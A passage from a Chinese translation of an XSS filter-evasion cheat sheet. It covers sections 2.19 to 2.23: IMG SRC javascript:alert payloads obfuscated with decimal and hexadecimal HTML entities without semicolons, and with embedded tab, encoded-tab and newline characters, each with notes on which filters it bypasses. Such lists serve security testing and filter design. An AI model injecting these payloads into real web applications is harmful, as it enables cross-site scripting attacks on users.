 
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;

&#39;&#88;&#83;&#83;&#39;&#41;>





### 2.19.    不带分号的十进制HTML字符实体编码

这对于绕过对“&#XX;”形式的XSS过滤非常有用，因为大多数人不知道最长可使用7位数字。这同样对例如$tmp_string =~s/.*\&#(\d+);.*/$1/;形式的过滤器有效，这种过滤器是错误的认为HTML字符实体编码需要用分号结尾（无意中发现的）：


<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>




### 2.20.    不带分号的十六进制HTML字符实体编码

这是有效绕过例如$tmp_string =~ s/.*\&#(\d+);.*/$1/;过滤器的方法。这种过滤器错误的认为#号后会跟着数字（十六进制HTML字符实体编码并非如此）


<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>




### 2.21.    内嵌TAB

使用TAB来分开XSS攻击代码：


<IMG SRC=”jav ascript:alert(‘XSS’);”>




### 2.22.    内嵌编码后TAB

使用编码后的TAB来分开XSS攻击代码：


<IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>




### 2.23.    内嵌换行分隔XSS攻击代码

一些网站声称09到13（十进制）的HTML实体字符都可以实现这种攻击，这是不正确的。只有09（TAB），10（换行）和13（回车）有效。查看ASCII字符表获取更多细节。下面几个XSS示例介绍了这些向量。


<IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>




### 2.24.    内嵌回车分隔XSS攻击代码
